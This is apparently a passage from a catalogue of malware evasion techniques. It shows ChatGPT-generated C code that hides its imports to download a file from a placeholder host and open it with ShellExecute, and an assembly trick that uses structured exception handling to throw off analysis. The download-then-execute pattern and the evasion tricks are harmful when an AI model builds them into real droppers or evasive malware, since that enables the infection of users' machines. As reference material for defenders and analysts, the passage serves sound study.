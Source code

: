 ```c
    URLDownloadToFile_t pURLDownloadToFile = (URLDownloadToFile_t)GetProcAddress(hUrlmon, "URLDownloadToFileA");
    if (pURLDownloadToFile == NULL) {
        printf("Failed to get address of URLDownloadToFile\n");
        FreeLibrary(hUrlmon);
        return 1;
    }


    // Get the address of ShellExecuteA
    ShellExecuteA_t pShellExecuteA = (ShellExecuteA_t)GetProcAddress(hShell32, "ShellExecuteA");
    if (pShellExecuteA == NULL) {
        printf("Failed to get address of ShellExecuteA\n");
        FreeLibrary(hShell32);
        return 1;
    }


    // Download a file from a URL to a local file
    HRESULT hr = pURLDownloadToFile(NULL, "https://example.com/file.txt", "C:\\path\\to\\downloaded_file.txt", 0, NULL);
    if (FAILED(hr)) {
        printf("Failed to download file. HRESULT: 0x%lx\n", hr);
    } else {
        printf("File downloaded successfully!\n");
    }


    // Use ShellExecute to open the downloaded file
    HINSTANCE hInstance = pShellExecuteA(NULL, "open", "C:\\path\\to\\downloaded_file.txt", NULL, NULL, SW_SHOW);
    if ((INT_PTR)hInstance <= 32) {
        printf("Failed to open file with ShellExecute\n");
    } else {
        printf("File opened successfully!\n");
    }

    // Free the urlmon.dll library
    FreeLibrary(hUrlmon);

    // Free the shell32.dll library
    FreeLibrary(hShell32);

    return 0;
}
```
(example generated with ChatGPT)


### Structured Exception Handler (SEH)

1. Install exception handler
2. provoke exception and jump to exception handler


```asm
mov eax, large fs:0
push offset loc_1244
push eax
mov large fs:0, esp
xor eax, eax
div eax
retn
```

